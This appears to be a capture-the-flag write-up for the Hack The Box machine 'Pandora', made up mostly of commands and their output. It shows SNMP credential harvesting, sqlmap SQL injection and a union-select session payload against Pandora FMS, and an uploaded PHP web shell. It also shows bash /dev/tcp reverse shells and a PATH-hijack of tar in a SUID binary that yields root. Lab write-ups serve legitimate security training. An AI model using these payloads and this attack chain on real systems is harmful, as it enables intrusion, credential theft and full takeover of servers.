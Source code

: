 ```yaml
---
title: "Pandora from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Pandora from HTB
`nmap`gave this:
```bash
 sudo nmap -sU --min-rate=4000 -T4 10.10.11.136
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 14:10 +04
Nmap scan report for 10.10.11.136
Host is up (0.25s latency).
Not shown: 991 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
161/udp   open   snmp

 nmap -sCV --min-rate 4000 -p- 10.10.11.136
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 14:00 +04

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
```
Then use `snmpwalk`
```bash
snmpwalk -v 1 -c public 10.10.11.136
```
after long ass wait
```bash
iso.3.6.1.2.1.25.4.2.1.5.1004 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.1005 = STRING: "-k start"
	iso.3.6.1.2.1.25.4.2.1.5.1101 = STRING: "-u daniel -p HotelBabylon23"
iso.3.6.1.2.1.25.4.2.1.5.1140 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.1142 = STRING: "-k start"
```
With this i can login in `ssh`
```bash
ssh daniel@10.10.11.136
daniel@10.10.11.136's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)


daniel@pandora:~$
```
reading this file tells me that `/var/www/pandora`is being served on `80 port`
```bash
cat /etc/apache2/sites-enabled/pandora.conf


<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```
forwarded port and accessed it:
```bash
ssh -L 8000:127.0.0.1:80 daniel@10.10.11.136
```
Then accessed site and found version, which is exploitable. With `sql-injection`i found `PHSESSID`
```bash
sudo  sqlmap --url="http://localhost:8000/pandora_console/include/chart_generator.php?session_id=''" --current-db --batch



[14:54:39] [INFO] retrieved: 'pandora'
current database: 'pandora'

```

Then listed `tables`in that database
```
sudo  sqlmap --url="http://localhost:8000/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables --batch


| tservice_element                   |
| tsesion                            |
| tsesion_extended                   |
| tsessions_php                      |
| tskin                              |
```
to get `session_id`we need `tsession_php`table
```bash
 sudo  sqlmap --url="http://localhost:8000/pandora_console/include/chart_generator.php?session_id=''" -D pandora -T tsessions_php --dump --batch


| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b
| gf40pukfdinc63nm5lkroidde6 | NULL
```
We need `matt's `session id.
then access the site with this:
```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=g4e01qdgk36mfdh90hvcc54umq
```
to become the admin
```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=1%27%20union%20select%201,2,%27id_usuario|s:5:%22admin%22;%27%20--%20-
```
Then open another `tab`and go to that `port` you will be `admin`
Now you can upload files.
I uploaded `php cmd`on site and got `cmd
```
<?php
system($_REQUEST['cmd']);
?>
```
Then accessed the `cmd`with this link
```
/images/php-shell.php?cmd=id
```
To get reverse shell upload `reverse shell file`and with `cmd`execute it
```bash
# reverse.sh

#!/bin/bash
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
upload it and with `cmd` type:
```bash
/images/php-shell.php?cmd= bash reverse.sh
```
Then you will get `netcat`connection
```bash
rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.136] 45852
matt@pandora:/var/www/pandora/pandora_console/images$ id
id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
```
***
User Flag is: b2c37562ccacb9f6a9f6a66a05898fe2
***
Let us find all the files with `SUID` bit set in the whole file system using the find utility with the:
```bash
$ find / -perm -4000 2>/dev/null


/usr/bin/pandora_backup
```
To run that program we must escape the restricted shell which code we can find on `GTFOshells`
```bash
$ echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```
This will make us able to run the program.
Now to see what this program does we must use `strings`onto it.
We don't have `strings`on machine so we must download it with `nc`
```bash
nc <your_ip> <port> < /usr/bin/pandora_backup # on machine
nc -nlvp <port> > pandora_backup # on your local machine
```
After downloading that file run strings onto it and we are able to find that it uses `tar`with `relative path`so it can be exploited to grant us `root shell`
go to machine and set `$PATH` variable to
```bash
export PATH=/home/matt:$PATH
```
Then in `/home/matt`create file either for `netcat connection`
```bash
$ echo -n '#!/bin/bash
 bash -i >& /dev/tcp/<yourIP>/<PORT> 0>&1' > tar
$ chmod +x tar
$ pandora_backup
```
Then you will get connection on `nc`
```bash
nc -nlvp 1235
listening on [any] 1235 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.136] 47902
bash: cannot set terminal process group (836): Inappropriate ioctl for device
bash: no job control in this shell
root@pandora:/home/matt# id
id
uid=0(root) gid=1000(matt) groups=1000(matt)
```
***
Root Flag is: f0e230f1810a9f5ca79dd2720ea7edb3
***
![](/assets/images/Screenshot from 2024-08-20 20-44-52.png)
